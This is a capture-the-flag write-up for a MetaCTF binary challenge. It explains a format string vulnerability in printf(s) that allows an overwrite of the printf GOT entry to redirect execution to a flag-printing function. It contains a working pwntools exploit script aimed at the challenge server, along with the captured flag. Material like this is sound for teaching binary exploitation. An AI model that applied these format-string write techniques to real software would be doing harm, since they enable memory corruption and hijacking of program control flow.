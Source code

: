 # Internet Talk - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/InternetTalk.gif)

---

## Challenge Summary

This challenge involves exploiting a **format string vulnerability** in `printf(s)` to **overwrite a GOT entry**. The goal is to redirect execution to a function that reads and prints the flag.

---

## Binary Information

```bash
$ file leet
```

![Alt text](img/2.png)

```bash
$ pwn checksec leet
```

![Alt text](img/3.png)

---

Here's a concise version using **GOT overwrite**:

---

## Static Analysis (IDA pro)

The program contains a **format string vulnerability** in `printf(s);`, where user input is passed directly as the format string. This allows us to overwrite memory, including the **Global Offset Table (GOT)**.

![Alt text](img/3.png)

By exploiting this, we can **overwrite a GOT entry** (e.g., `puts` or `printf`) and redirect execution to the function that reads and prints the flag from `flag.txt`.

![Alt text](img/4.png)

---

## Exploit Strategy

1. **Vulnerability**: Exploit the format string vulnerability in `printf(s)` to overwrite memory.
2. **GOT Overwrite**: Use `%n` to overwrite the GOT entry for `printf` with the address of the **win function**.
3. **Payload**: Generate the payload using `fmtstr_payload`, targeting the `printf` GOT entry.
4. **Redirect Execution**: Send the payload to execute the **win function** that prints the flag.
5. **Capture Flag**: Extract the flag from the output.

This strategy redirects program execution to the flag-reading function using **GOT overwrite** via the format string vulnerability.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template leet --host host5.metaproblems.com --port 5040
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'leet')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5040)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:      No RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x8048000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

win_addr = p32(0x80491f6)
payload = fmtstr_payload(7, {exe.got['printf']: win_addr})
io.sendline(payload)
io.recvuntil(b'Speak:\n\n')
#flag = io.recvline().strip().strip().decode()
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program is vulnerable to a **format string vulnerability** in the call to `printf(s);`, where user-controlled input (`s`) is directly used as the format string. This allows an attacker to:

1. **Read memory**: Using format specifiers like `%x` or `%s` to leak information from the stack.
2. **Write to memory**: Exploiting `%n` to overwrite memory, including entries in the **Global Offset Table (GOT)**.

In this case, the attacker can overwrite the `printf` GOT entry, redirecting the program's execution to the **win function** that reads and prints the flag.

---

## Flag

```
MetaCTF{1337_h@kkaR}
```
